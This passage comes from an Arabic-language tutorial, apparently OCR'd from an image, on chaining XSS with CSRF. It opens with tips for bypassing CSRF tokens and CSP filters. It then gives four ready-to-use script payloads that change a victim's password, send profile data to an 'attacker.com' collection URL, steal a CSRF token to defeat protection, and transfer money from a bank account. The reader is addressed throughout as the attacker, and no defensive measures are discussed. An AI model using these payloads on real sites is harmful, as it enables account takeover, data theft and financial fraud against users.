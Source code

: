 #### **الخلاصة بالعامية**:
لو الموقع حاطط حماية زي CSRF Token، استخدم XSS عشان تستخرج الـ Token. لو فيه CSP أو فلاتر، جرب أكواد غريبة زي `onerror` أو `svg`. SameSite Cookies مش هيأثر لأنك بتنفذ من جوه الموقع. فحّص كل حاجة بعناية، واستخدم Burp عشان تشوف الثغرة.

---

### **4. سيناريوهات استغلال XSS مع CSRF**

#### **سيناريو 1: سرقة الحساب بتغيير كلمة السر**
- **الوصف**: ثغرة XSS في تعليقات، وموقع بيسمح بتغيير كلمة السر بطلب POST.
- **الاستغلال**:
  - حقن كود في التعليقات:
    ```html
    <script>
      var xhr = new XMLHttpRequest();
      xhr.open('POST', '/change-password', true);
      xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
      xhr.send('new_password=attacker123');
    </script>
    ```
  - لما الضحية يشوف التعليق، كلمة السر هتتغير، وتقدر تسجل دخول.

#### **سيناريو 2: سرقة بيانات المستخدم**
- **الوصف**: XSS في حقل إدخال، وAPI بيدي بيانات المستخدم.
- **الاستغلال**:
  - حقن كود:
    ```html
    <img src=x onerror="fetch('/api/user-profile').then(r=>r.text()).then(d=>fetch('https://attacker.com/steal?data='+encodeURIComponent(d)))">
    ```
  - الكود هيسرق بيانات زي الإيميل أو التوكن ويبعتها لسيرفرك.

#### **سيناريو 3: تجاوز CSRF Token**
- **الوصف**: موقع بيستخدم CSRF Token، لكن فيه ثغرة XSS.
- **الاستغلال**:
  - حقن كود يستخرج الـ Token:
    ```html
    <script>
      var token = document.querySelector('input[name="csrf_token"]').value;
      var xhr = new XMLHttpRequest();
      xhr.open('POST', '/change-password', true);
      xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
      xhr.send('new_password=attacker123&csrf_token=' + token);
    </script>
    ```
  - الكود هيغير كلمة السر حتى لو فيه حماية.

#### **سيناريو 4: تحويل أموال**
- **الوصف**: موقع بنك فيه XSS، وبيسمح بتحويل فلوس بطلب POST.
- **الاستغلال**:
  - حقن كود:
    ```html
    <script>
      var xhr = new XMLHttpRequest();
      xhr.open('POST', '/transfer', true);
      xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
      xhr.send('amount=1000&to=attacker_account');
    </script>
    ```
  - الكود هيحول فلوس لحسابك.
